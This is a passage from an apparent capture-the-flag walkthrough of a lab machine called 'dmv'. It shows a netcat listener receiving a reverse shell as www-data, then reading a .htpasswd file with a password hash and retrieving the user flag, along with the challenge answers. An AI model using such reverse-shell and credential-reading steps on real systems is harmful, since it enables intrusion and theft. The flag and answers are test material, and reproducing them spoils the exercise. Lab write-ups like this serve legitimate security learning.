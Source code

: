 Let's check back on our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.17.48.138] from (UNKNOWN) [10.10.162.57] 55344
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ 
```

Let's list out the files in the current directory.

```
www-data@dmv:/var/www/html/admin$ ls -la
ls -la
total 24
drwxr-xr-x 2 www-data www-data 4096 Apr 12  2020 .
drwxr-xr-x 6 www-data www-data 4096 Feb  8 07:38 ..
-rw-r--r-- 1 www-data www-data   98 Apr 12  2020 .htaccess
-rw-r--r-- 1 www-data www-data   49 Apr 12  2020 .htpasswd
-rw-r--r-- 1 www-data www-data   39 Apr 12  2020 flag.txt
-rw-rw-r-- 1 www-data www-data  202 Apr 12  2020 index.php
```

We can now `cat` out the `.htpasswd` file.

```
www-data@dmv:/var/www/html/admin$ cat .htpasswd 
cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

There's the user that has access to the secret folder.

### Answer

```
itsmeadmin
```

###

### What is the user flag?

We can find the flag in the `/var/www/html/admin` directory.

```
www-data@dmv:/var/www/html/admin$ cat flag.txt
cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```

### Answer

```
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```
